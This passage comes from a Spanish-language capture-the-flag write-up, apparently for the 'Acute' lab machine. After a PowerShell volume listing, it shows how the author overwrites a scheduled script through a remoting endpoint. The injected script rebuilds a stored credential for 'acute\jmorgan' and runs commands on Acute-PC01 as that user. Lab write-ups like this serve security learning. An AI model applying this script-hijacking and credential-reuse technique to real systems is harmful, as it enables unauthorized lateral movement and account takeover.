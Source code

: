 ```console
PassThroughNamespace :                                                                                                                            
PassThroughServer    :                                                                                                                            
UniqueId             : \\?\Volume{0eed1261-0000-0000-0000-100000000000}\                                                                          
AllocationUnitSize   : 4096
DedupMode            : 4
DriveLetter          : 
DriveType            : 3
FileSystem           : NTFS
FileSystemLabel      : System Reserved
FileSystemType       : 14
HealthStatus         : 0
OperationalStatus    : {2}
Path                 : \\?\Volume{0eed1261-0000-0000-0000-100000000000}\
Size                 : 52424704
SizeRemaining        : 20611072

PSComputerName       : atsserver
RunspaceId           : 52a86278-f5e0-478a-bad6-558bbd42b23f
ObjectId             : {1}\\ACUTE-PC01\root/Microsoft/Windows/Storage/Providers_v2\WSP_Volume.Objec
                       tId="{8ccfebca-48c0-11ec-9ffe-806e6f6e6963}:VO:\\?\Volume{0eed1261-0000-0000
....                       
```

Como tenemos permisos para utilizar `sc` y cambiar el contenido del script, podemos simplemente modificar el script y así conseguirá la clave de la máquina `Acute-PC01` y ejecutar el comando que queramos.

```console
Invoke-Command -computername atsserver -ConfigurationName dc_manage -credential $cred -ScriptBlock {sc C:\Users\imonks\Desktop\wm.ps1 -Value "`$securepasswd = '01000000d08c9ddf0115d1118c7a00c04fc297eb0100000096ed5ae76bd0da4c825bdd9f24083e5c0000000002000000000003660000c00000001000000080f704e251793f5d4f903c7158c8213d0000000004800000a000000010000000ac2606ccfda6b4e0a9d56a20417d2f67280000009497141b794c6cb963d2460bd96ddcea35b25ff248a53af0924572cd3ee91a28dba01e062ef1c026140000000f66f5cec1b264411d8a263a2ca854bc6e453c51';`$passwd = `$securepasswd | ConvertTo-SecureString;`$creds = New-Object System.Management.Automation.PSCredential ('acute\jmorgan',`$passwd);Invoke-Command -ScriptBlock {whoami} -ComputerName Acute-PC01 -Credential `$creds"}
```

Ahora podemos comprobar que el script se ha modificado.
```console
PS C:\uTILS> Invoke-Command -computername atsserver -ConfigurationName dc_manage -credential $cred -ScriptBlock {type C:\Users\imonks\Desktop\wm.p
s1}
Invoke-Command -computername atsserver -ConfigurationName dc_manage -credential $cred -ScriptBlock {type C:\Users\imonks\Desktop\wm.ps1}
$securepasswd = '01000000d08c9ddf0115d1118c7a00c04fc297eb0100000096ed5ae76bd0da4c825bdd9f24083e5c0000000002000000000003660000c00000001000000080f704e251793f5d4f903c7158c8213d0000000004800000a000000010000000ac2606ccfda6b4e0a9d56a20417d2f67280000009497141b794c6cb963d2460bd96ddcea35b25ff248a53af0924572cd3ee91a28dba01e062ef1c026140000000f66f5cec1b264411d8a263a2ca854bc6e453c51';$passwd = $securepasswd | ConvertTo-SecureString;$creds = New-Object System.Management.Automation.PSCredential ('acute\jmorgan',$passwd);Invoke-Command -ScriptBlock {whoami} -ComputerName Acute-PC01 -Credential $creds
```
